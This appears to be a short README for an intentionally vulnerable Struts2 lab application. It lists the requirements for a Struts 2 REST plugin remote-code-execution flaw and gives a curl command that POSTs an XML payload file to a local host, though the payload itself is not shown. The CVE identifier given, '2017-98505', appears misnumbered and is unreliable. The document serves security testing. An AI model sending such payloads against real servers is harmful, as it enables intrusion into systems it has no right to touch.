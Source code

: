 # Vulnerable Struts2 application

## CVE: 2017-98505 - Apache Struts 2 Rest Plugin RCE

### Requirements

1. Struts 2.5.10 <=
1. Sruts REST plugin
1. Struts Convention plugin
1. A Create item URL exists and can be POSTed to.

Attacker can POST the payload:

``` bash
curl -v -H "Content-Type:application/xml" -X POST -d @cve2017-98505.txt http://192.168.0.104:8080/shapes/1
```
